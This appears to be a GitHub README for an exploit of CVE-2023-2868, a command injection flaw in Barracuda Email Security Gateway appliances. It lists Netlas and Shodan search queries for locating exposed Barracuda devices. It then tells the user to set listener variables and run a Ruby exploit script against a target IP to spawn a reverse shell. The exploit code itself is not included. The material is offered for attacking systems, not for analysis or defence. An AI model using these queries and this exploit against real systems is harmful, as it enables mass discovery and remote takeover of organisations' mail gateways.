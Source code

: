 # CVE-2023-2868
Barracuda ESG Command Injection 
- NetLas Dork:
```
http.headers.server:"BarracudaHTTP"
```
[Search Link](https://app.netlas.io/responses/?q=http.headers.server:"BarracudaHTTP")


- Shodan dorks:

```
Barracuda-Spam-Firewall
```
```
Barracuda port:25
```
```
http.waf:"Barracuda (Barracuda Networks)"
```
```
html:app_common::nonetwork.title
```
```
http.favicon.hash:1436966696
```
- Usage
Set LHOST and RHOST variables to your listener.

```
ruby exploit.rb <TARGET_IP>
```

This will spawn a reverse shell.
